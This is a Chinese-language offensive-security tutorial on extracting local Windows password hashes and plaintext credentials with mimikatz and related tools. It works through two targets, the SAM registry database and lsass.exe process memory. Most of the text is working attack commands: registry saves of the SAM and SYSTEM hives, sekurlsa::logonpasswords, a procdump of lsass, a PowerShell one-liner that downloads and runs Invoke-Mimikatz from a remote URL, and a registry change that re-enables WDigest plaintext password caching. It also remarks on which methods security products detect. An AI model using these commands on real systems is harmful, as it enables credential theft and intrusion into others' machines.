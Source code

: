 ## 前言

* 在Windows操作系统上，sam数据库（C:\Windows\System32\config\sam）里保存着本地用户的hash。
* 在本地认证的流程中，作为本地安全权限服务进程lsass.exe也会把用户密码缓存在内存中（dmp文件）。

从上面的两个思路开始，我们利用mimkatz工具作为辅助，来抓取本地用户的hash。

## SAM数据库提取

[https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump](https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump)

```
lsadump::sam
```

此命令可以转存储SAM数据库，里面包含了本地用户的密码hash。

它有两种工作模式： `online` and `offline`。

### online 模式

online工作模式：需要用户具备 **SYSTEM权限**或 **使用模拟的SYSTEM令牌**，否则将会产生拒绝访问报错：

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083603-b03ecb96-35c8-1.png)

下面通过使用模拟SYSTEM令牌（token::elevate）进行演示：

```
privilege::debug
token::elevate
lsadump::sam
```

* **privilege::debug** 获得debug权限。
* **token::elevate** 模拟一个system令牌。

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083646-c9f17aca-35c8-1.png)

### offline 模式

offline模式：获取当前系统的SAM数据库文件，在另一系统下进行读取。Win2000和XP需要先提到SYSTEM，03开始直接可以reg save。

导出SAM数据库文件有以下两种实现方法：

* **保存注册表*

```
reg save hklm\sam sam.hiv
reg save hklm\system system.hiv
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083709-d793d416-35c8-1.png)

文件保存在执行命令的目录：

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083729-e3c1c612-35c8-1.png)

* **复制文件*

```
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SAM
```

默认无法复制：

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083746-edf1c3d0-35c8-1.png)

需要借助工具：[https://github.com/3gstudent/NinjaCopy](https://github.com/3gstudent/NinjaCopy)

导出SAM数据库后，把文件放置mimikatz目录下：

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083759-f572aeee-35c8-1.png)

执行命令：

```
lsadump::sam /sam:sam.hiv /system:system.hiv
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083812-fd1aafde-35c8-1.png)

### 工作原理

参考：[渗透技巧-通过sam数据库获取本地用户hash](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E9%80%9A%E8%BF%87SAM%E6%95%B0%E6%8D%AE%E5%BA%93%E8%8E%B7%E5%BE%97%E6%9C%AC%E5%9C%B0%E7%94%A8%E6%88%B7hash/)

1. 读取hklm\system获取syskey
2. 使用syskey解密hklm\sam

### 优缺点比较

online模式：使用简单，但是特征明显，通常会被安全产品拦截。

offline模式：导出的文件大，效率低，但是安全。

### 其他工具

* **pwdump7** 下载地址： [http://passwords.openwall.net/b/pwdump/pwdump7.zip](http://passwords.openwall.net/b/pwdump/pwdump7.zip)

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083828-0704fcd4-35c9-1.png)

* **powershell** 下载地址： [https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1) 下载后本地执行：

```
powershell Import-Module .\Invoke-PowerDump.ps1;Invoke-PowerDump
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083839-0d4302b2-35c9-1.png)

* **QuarkPwDump** 项目地址：[https://github.com/quarkslab/quarkspwdump](https://github.com/quarkslab/quarkspwdump) 已编译版本：[https://github.com/redcanari/quarkspwdump/releases](https://github.com/redcanari/quarkspwdump/releases)

## lsass内存提权

### 使用mimikatz直接导出凭证

[https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa)

该模块从lsass.exe的内存中提权hash，需要具备下面的条件之一：

* administrator，可以通过privilege::debug获得调试权限
* SYSTEM权限

下面通过privilege::debug进行演示：

* **本地交互式抓取：*

```
privilege::debug
log
sekurlsa::logonpasswords
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083854-1689086c-35c9-1.png)

会在当前shell运行的目录下生成 `mimikatz.log`：

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083906-1d759dc0-35c9-1.png)

* **本地非交互式抓取：*

```
mimikatz.exe log "privilege::debug" "sekurlsa::logonPasswords full" exit
```

缺点也非常明显，通常会被安全产品拦截。

* **powershell加载mimikatz抓取：*

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```

或者下载本地执行：

```
powershell Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -Command '"privilege::debug" "log" "sekurlsa::logonPasswords full"'
```

### 通过lsass进程的dmp文件导出凭证

[https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump)

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083924-2841b3e2-35c9-1.png)

会在当前目录生成lsass.dmp文件：

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083936-2f6deea6-35c9-1.png)

然后从lsass.dmp文件导出凭证，通过mimikatz完成：

```
mimikatz.exe log "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20201204083949-37176434-35c9-1.png)

* **工作原理以及bypass：** 参考：[渗透基础-从lsass.exe进行导出凭证](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E4%BB%8Elsass.exe%E8%BF%9B%E7%A8%8B%E5%AF%BC%E5%87%BA%E5%87%AD%E6%8D%AE/) 通过API `MiniDumpWriteDump()`获得lsass.exe进程的dmp文件。

* **明文密码问题：** 参考：[红蓝对抗之Windows内网渗透](https://mp.weixin.qq.com/s/OGiDm3IHBP3_g0AOIHGCKA) 为什么有的抓不到明文密码，主要还是 **kb2871997**的问题。kb2871997补丁会删除除了wdigest ssp以外其他ssp的明文凭据，但对于wdigest ssp只能选择禁用。 但是用户可以手动开启：

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
